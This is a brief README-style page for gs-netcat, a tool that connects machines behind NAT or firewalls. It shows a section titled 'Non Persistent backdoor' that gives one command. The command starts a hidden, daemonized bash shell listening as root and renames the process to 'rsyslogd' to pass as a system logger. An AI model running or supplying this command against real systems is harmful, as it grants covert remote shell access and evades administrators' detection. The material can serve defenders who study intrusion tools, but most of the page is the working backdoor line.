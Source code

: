 # gs-netcat

### Overview

The Global Socket Tookit allows two users behind NAT/Firewall to establish a TCP connection with each other. Securely.

More on [https://www.gsocket.io](https://www.gsocket.io).

### Non Persistent backdoor

```
$(GSOCKET_ARGS="-s MySecret -liqD" HOME=/root TERM=xterm-256color SHELL="/bin/bash" /bin/bash -c "cd $HOME; exec -a rsyslogd /path/to/gs-netcat")
```
